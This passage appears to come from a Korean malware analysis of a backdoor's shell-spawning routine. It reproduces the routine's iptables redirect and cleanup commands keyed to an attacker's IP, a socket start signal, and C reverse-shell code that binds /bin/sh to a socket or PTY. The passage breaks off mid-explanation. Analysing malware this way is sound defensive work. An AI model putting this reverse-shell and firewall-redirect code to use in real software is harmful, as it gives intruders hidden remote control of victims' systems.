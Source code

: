     - `getshell` 함수에서 호출 시 전달한 명령 문자열 인자 `rcmd`, `dcmd`를 `system` 함수로 실행하는 부분이다.
    - 수행되는 명령
        - `/sbin/iptables -t nat -D PREROUTING -p tcp -s %s --dport %d -j REDIRECT --to-ports %d`
            - `%s` : 공격자 IP 주소
            - 첫 번째 `%d` : 공격자가 요청한 port 번호
            - 두 번째 `%d` : 임의 선택된 port
        - `/sbin/iptables -D INPUT -p tcp -s %s -j ACCEPT`
            - `%s` : 공격자 IP 주소

4. **공격자에게 시작 신호 전송**

    ```c
    write(sock, "3458", 4);
    ```

    - 열린 소켓으로 `3458` 문자열을 전송한다.

5. **PTY를 생성 시도 후 reverse shell 제공**
    - open_tty 함수를 통해 PTY (Pseudo-Terminal) 생성을 시도하여, 생성했을 경우에는 **완전한 터미널 기능을 공격자에게 제공**하고, 생성하지 못했을 경우에는 **제한적인 터미널 기능을 공격자에게 제공한다.**
    - `open_tty` 수행
        - 함수 내부에서 PTY를 생성하는 시도를 하고, 생성 성공 여부에 따라 다른 동작을 하게 된다.
        - PTY 생성 성공 시에 `pty` 변수에는 **마스터**의 파일 디스크립터가 저장되고(`ptym_open` 함수에서 return), `tty` 변수에는 **슬레이브**의 파일 디스크립터가 저장된다.(`ptys_open` 함수에서 return)

    1. **PTY 생성 실패 시**

        ```c
        if (!open_tty()) {
            if (!fork()) {
                dup2(sock, 0);
                dup2(sock, 1);
                dup2(sock, 2);
                execve(sh, argvv, envp);
            }
            close(sock);
            return 0;
        }
        ```

        - 실패 시에 reverse shell 역할을 수행하게 될 자식 프로세스를 생성한다.(`fork()`)
        - 자식 프로세스는 `dup2()` 함수를 통해 자식 프로세스의 모든 입력(stdin, 파일 디스크립터 0번), 출력(stdout, 파일 디스크립터 1번), 에러(stderr, 파일 디스크립터 2번)를 소켓 통신으로 처리 지정한다.
        - `execve()` 함수를 통해 현재 실행 중인 자식 프로세스의 코드를 `/bin/sh` 쉘로 완전히 교체한다.
        - PTY 연결에 실패하였으므로, PTY 없이 단순히 소켓을 통해 쉘의 입출력을 직접 연결하게 되고, 이 시점부터 자식 프로세스는 더 이상 이후의 코드를 실행하지 않고, 시스템 쉘인 `/bin/sh`가 되어 공격자에게 reverse shell을 제공한다.
        - 부모 프로세스는 PTY를 생성하지 못했으므로, 소켓을 닫고(`close(sock)`), `return`하여 `packet_loop()` 함수로 돌아간다.

    2. **PTY 생성 성공 시**

    ```c
    subshell = fork();
    if (subshell == 0) {
        close(pty);
        ioctl(tty, TIOCSCTTY)
        close(sock);
        dup2(tty, 0);
        dup2(tty, 1);
        dup2(tty, 2);
        close(tty);
        execve(sh, argvv, envp);
    }
    close(tty);
    ```
